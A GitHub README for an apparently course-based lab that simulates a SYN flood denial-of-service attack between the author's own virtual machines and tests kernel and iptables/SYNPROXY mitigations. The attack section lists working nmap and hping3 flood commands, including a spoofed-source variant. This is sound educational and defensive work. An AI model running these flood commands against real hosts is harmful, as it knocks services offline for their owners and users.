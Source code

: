 # SYN Flood Attack Simulation Lab

This project demonstrates a **SYN Flood Denial-of-Service (DoS) attack** in a controlled lab environment, inspired by the real-world incident faced by WebStream Corp. The lab simulates how a SYN flood disrupts availability and explores kernel- and firewall-level mitigations.

## 🖥 Lab Setup
- **Attacker**: Kali Linux VM (VirtualBox)
- **Victim**: Ubuntu Server 22.04 VM (VirtualBox)
- **Network**: Tailscale VPN for private connectivity
- **Services**: Apache2 web server hosting a looping video test page

![Lab Diagram](https://github.com/Arryn21/syn-flood-lab/blob/main/syn_flood_detailed_diagram.png)

## ⚡ Attack Overview
- A normal TCP handshake requires SYN → SYN/ACK → ACK.
- In a SYN flood:
  - Attacker sends a large number of SYN packets.
  - Victim replies with SYN/ACK, but never receives the final ACK.
  - Victim’s connection backlog fills with half-open sessions.
  - Legitimate clients cannot connect — **denial of service**.

## 🔬 Attack Demonstration
1. **Reconnaissance**: 
   ```bash
   nmap -sS <victim-ip>
   ```
2. **Flooding (non-spoofed)**:
   ```bash
   sudo hping3 -S --flood -p 80 <victim-ip>
   ```
3. **Flooding (spoofed)**:
   ```bash
   sudo hping3 -S --flood --rand-source -p 80 <victim-ip>
   ```
4. **Monitoring** (victim side):
   ```bash
   ss -ant state syn-recv
   ```

## 📸 Screenshots
- Baseline server state
- Victim under SYN flood (`SYN_RECV` backlog)
- Video stream freezing during attack
- Video restored after mitigation

(See `/screenshots/` folder)

## 🛡 Mitigations Tested
- Kernel defenses:
  ```bash
  sysctl -w net.ipv4.tcp_syncookies=1
  sysctl -w net.ipv4.tcp_max_syn_backlog=4096
  sysctl -w net.ipv4.tcp_synack_retries=3
  ```
- iptables rate limiting (partial effectiveness)
- **SYNPROXY** (best defense in lab)
  ```bash
  sudo modprobe nf_synproxy_core xt_SYNPROXY
  sudo iptables -A INPUT -p tcp --syn -m conntrack --ctstate NEW \
       -j SYNPROXY --sack-perm --timestamp --wscale 7 --mss 1460
  ```

## 🎯 Key Learnings
- SYN floods directly threaten **Availability** (CIA triad).
- Spoofed floods are harder to trace/mitigate than non-spoofed floods.
- Simple iptables rules are insufficient — kernel tuning and SYNPROXY were effective.
- Real-world defenses often require **DDoS scrubbing services** or specialized appliances.

## 📚 References
- NIST SP 800-115: Technical Guide to Information Security Testing
- Oriyano & Solomon, *Hacker Techniques, Tools, and Incident Handling*
- CSUDH CYB 552 – Advanced Hacking Prevention

---

⚠️ **Disclaimer**  
This project was performed strictly in an isolated lab with my own VMs. Never attempt SYN flooding outside a controlled, authorized environment.
